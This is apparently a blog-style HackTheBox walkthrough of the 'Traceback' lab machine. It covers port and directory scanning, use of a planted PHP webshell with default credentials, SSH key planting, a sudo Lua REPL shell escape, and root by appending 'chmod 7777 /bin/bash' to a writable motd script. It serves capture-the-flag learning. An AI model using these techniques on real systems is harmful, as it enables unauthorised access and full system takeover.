 ```yaml
---
title: Traceback
date: 2022-06-16 
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/dVPTnt8.png)

Traceback is one of the boxes I am proud of doing not because of its difficulty, but how fast I was able to gain root on it. Granted, the "hacker" who this box's premise revolved around, left hints that were brutally obvious. This was one of the first times that I did not run into a wall while solving the box. The attack vector was very clear from start to finish.

## Recon

`nmap -sVC 10.10.10.181`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-15 20:37 EDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache/2.4.29 (Ubuntu)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
```

![](https://i.imgur.com/tc6BJGj.png)


Apparently theres a backdoor somewhere. Its probably a webshell of some sort.

`gobuster dir -u http://10.10.10.181 -w /usr/share/seclists/Web-Shells/backdoor_list.txt`
```    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Web-Shells/backdoor_list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/15 20:41:50 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]                
===============================================================
```

![](https://i.imgur.com/iFWnKhI.png)

Looks like we got some sort of webshell.

![](https://i.imgur.com/ewcBU6Q.png)


Based on the github repo for this specific webshell, the default creds are just admin admin so lets test that.

![](https://i.imgur.com/wjLCXwc.png)

After some play testing, heres my conclusion about this webshell
* its pretty janky
* we have file write
* attemped a reverse shell but something went wrong

Upload my ssh key into the .ssh directory and ssh in.

`ssh webadmin@traceback.htb`
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 18:10:25 2022 from 10.10.14.19
webadmin@traceback:~$ 
```

Worked perfectly however this is not user. sysadmin is the user and we need to pivot to them.


> It is also worth noting that message of the day when sshing in
{: .prompt-idea }

`sudo -l`
```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

`cat note.txt `
```
- sysadmin -
I have left a tool to practice Lua.
Im sure you know where to find it.
Contact me if you have any question.
```

Couple of interesting finds. Note.txt is referring to some sort of Lua program and `sudo -l` references luvit which is a lua program. Putting two and two together, we can abuse the lua program to spawn a shell as our user.

Running the program just executes lua commands so we can just simply spawn a shell.

Demo:
```
Welcome to the Luvit repl!
> os.execute('/bin/sh')
$ whoami
sysadmin
```

User obtained. Time for root.

## Root

```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

Revisiting the motd, the hacker seems to have left us a large hint moving forward.

`ls -la /etc/update-motd.d/`
```
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 Jun 15 19:39 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun 15 19:39 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun 15 19:39 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun 15 19:39 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun 15 19:39 91-release-upgrade
```
Looks like all of them are writable. These are scripts that are run when you logon to the box meaning we can just turn /bin/bash into an suid and run bash -p to gain root.

```bash
echo "chmod 7777 /bin/bash" >> /etc/update-motd.d/00-header
```

Then log out and relog on.

Demo
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 19:35:06 2022 from 10.10.14.19
-bash-4.4$ whoami
webadmin
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

Pwned :)
